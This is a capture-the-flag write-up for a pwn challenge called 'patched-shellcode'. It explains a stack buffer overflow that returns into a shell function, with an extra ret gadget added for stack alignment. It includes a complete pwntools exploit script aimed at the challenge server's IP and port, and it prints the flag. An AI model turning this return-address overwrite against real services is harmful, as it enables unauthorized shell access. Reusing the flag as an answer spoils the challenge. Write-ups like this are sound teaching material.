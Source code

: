 # patched-shellcode

## Description

Okay, okay. So you were smart enough to do basic overflow huh...

Now try this challenge! I patched the shell function so it calls system instead of execve... so now your exploit shouldn't work! bwahahahahaha

Note: due to the copycat nature of this challenge, it suffers from the same bug that was in basic-overflow. see the cryptic message there for more information.

Author: drec

nc 34.134.173.142 5000

## Approach
```
void shell(void)

{
  system("/bin/sh");
  return;
}
```

Basically same thing as [basic-overflow](../basic-overflow/README.md), overwrite RIP to call `shell`. But this time our first exploit doesn't work because this binary suffers from stack alignment issues.

So we just need to add a `ret` instruction to fix the stack alignment issues and our exploit works again!

## Exploit
```
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './patched-shell'
elf = context.binary = ELF(exe, checksec=False)
libc = '/usr/lib/libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'debug'
host, port = '34.134.173.142', 5000

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg
break *main+31
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
def exploit():
    global io
    io = initialize()
    rop = ROP(exe)
    offset = 72
    payload = flat({
        offset: [
            rop.ret.address,
            elf.symbols['shell']
        ]
    })

    io.sendline(payload)
    io.interactive()
    
if __name__ == '__main__':
    exploit()
```

## Flag
```
uoftctf{patched_the_wrong_function}
```